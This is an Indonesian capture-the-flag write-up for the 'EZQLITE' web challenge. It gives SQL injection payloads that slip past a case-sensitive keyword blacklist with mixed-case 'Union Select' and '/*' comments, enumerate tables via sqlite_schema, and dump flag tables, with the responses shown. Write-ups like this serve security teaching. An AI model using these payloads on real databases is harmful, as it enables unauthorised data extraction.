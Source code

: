 # EZQLITE
It's just a simple website, nothing strange right?

## Solution
Dikarenakan word blacklist nya ada '--' 'LIKE' 'like' 'ORDER' 'order' 'UNION' 'union' 'SELECT' 'select' yang di mana kita tidak bisa menggunakan words tersebut
jadi saya menggunakan cara lain untuk comment **--** yaitu menggunakan ** /* **
Untuk mengetahui jumlah columns kita menggunakan **order by** dikarenakan sebagian ada yang di blacklist jadi saya mencoba menggunakan **Order By**

Payload: ```' Order By 3,2,1 /*```

Lalu mencari nomor togel langsung saja eksekusi menggunakan **UNION SELECT** dikarenakan sebagian ada yang diblacklist jadi saya mencoba menggunakan **Union Select**

Payload: ```' Union Select 3,2,1 /*```

Setelah muncul nomor togel nya langsung kita cari nama nama tabel yang ada di dalam database

Payload: ```' Union Select 3,sql,1 From sqlite_schema/*```

Response: 

```
CREATE TABLE flag_1 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_2 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_3 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_4 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE flag_5 (id INTEGER PRIMARY KEY, flag TEXT)	1	#3
CREATE TABLE songs ([rank] INTEGER PRIMARY KEY, [title] TEXT, [artist] TEXT)	1	#3
```

![Screenshot](https://raw.githubusercontent.com/ilmndwntr/ForestyHC-CTF-WRITEUP/main/Web%20Exploitation/ezqlite/ss.png)

Terdapat isi column ada ***id**** dan ada ***flag*** jika sudah tau nama column nya langsung aja kita dump data datanya

Payload: ```' Union Select 3,flag,1 From flag_1/*```

Response:

```
ForestyHC{fake_flag_167909}	1	#3
ForestyHC{fake_flag_45c48c}	1	#3
ForestyHC{fake_flag_8f14e4}	1	#3
ForestyHC{fake_flag_a87ff6}	1	#3
ForestyHC{fake_flag_c4ca42}	1	#3
ForestyHC{fake_flag_c81e72}	1	#3
ForestyHC{fake_flag_c9f0f8}	1	#3
ForestyHC{fake_flag_e4da3b}	1	#3
ForestyHC{fake_flag_eccbc8}	1	#3
```

Ternyata banyak sekali fake flag jadi kita coba cari di tabel lain sampai ketemu flag asli nya, setelah pencarian flag asli nya saya menemukan di tabel ***flag_3***

Payload: ```' Union Select 3,flag,1 From flag_3/*```

Response:

```
ForestyHC{fake_flag_167909}	1	#3
ForestyHC{fake_flag_45c48c}	1	#3
ForestyHC{fake_flag_a87ff6}	1	#3
ForestyHC{fake_flag_c4ca42}	1	#3
ForestyHC{fake_flag_c81e72}	1	#3
ForestyHC{fake_flag_c9f0f8}	1	#3
ForestyHC{fake_flag_e4da3b}	1	#3
ForestyHC{fake_flag_eccbc8}	1	#3
ForestyHC{sqlit3_injectiooooonnn_is_basic_0c3662}	1	#3
```

![Screenshot](https://media.tenor.com/4IxtijQfVnEAAAAC/baby-scream-yeah.gif)
